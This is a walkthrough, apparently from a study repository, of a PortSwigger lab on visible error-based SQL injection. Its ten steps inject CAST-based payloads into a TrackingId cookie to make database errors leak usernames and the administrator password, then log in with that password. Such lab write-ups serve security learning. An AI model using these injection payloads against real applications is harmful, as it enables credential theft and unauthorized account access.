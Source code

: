 # Visible error-based SQL injection

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.


___

**NOTE:** 
`SELECT CAST(1 AS int)--` => it will return `1`
`SELECT CAST((SELECT 1) AS int)--`  => it will return `1`


step 1

go to proxy => http history => select any Request => then send to repeater

![screnshot](./images/lab13_1.png)


step 2

add `'` just after TrackingId
eg: => 
```sql
rackingId=6zYV1IBjiO5WaU1p'
```

![screnshot](./images/lab13_2.png)

step 3

add `''` just after TrackingId
eg: => 
```sql
rackingId=6zYV1IBjiO5WaU1p''
```

![screnshot](./images/lab13_3.png)


step 4

add `' AND CAST((SELECT 1) AS int)--`
eg =>
```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+CAST((SELECT+1)+AS+int)--
```

![screnshot](./images/lab13_4.png)

step 5

add `' AND 1=CAST((SELECT 1) AS int)--`
eg =>
```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+1%3dCAST((SELECT+1)+AS+int)--
```

![screnshot](./images/lab13_5.png)


step 6

add  `' AND 1=CAST((SELECT username FROM users) AS int)--`
eg =>
```sql
TrackingId=6zYV1IBjiO5WaU1p'+AND+1%3dCAST((SELECT+username+FROM+users)+AS+int)--
```

![screnshot](./images/lab13_6.png)


step 7

remove trackingId and 
add `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
eg =>
```sql
TrackingId%3d'+AND+1%3dCAST((SELECT+username+FROM+users)+AS+int)--
```

![screnshot](./images/lab13_7.png)


step 8

add `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
=> 
```sql
TrackingId='+AND+1%3dCAST((SELECT+username+FROM+users+LIMIT+1)+AS+int)--
```

![screnshot](./images/lab13_8.png)


step 9

add `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
eg =>
```sql
TrackingId='+AND+1%3dCAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)--
```

![screnshot](./images/lab13_9.png)


step 10

To solve the lab
login using `administrator` as username and password `6twusmy93tckofkybx0d`

![screnshot](./images/lab13_10.png)


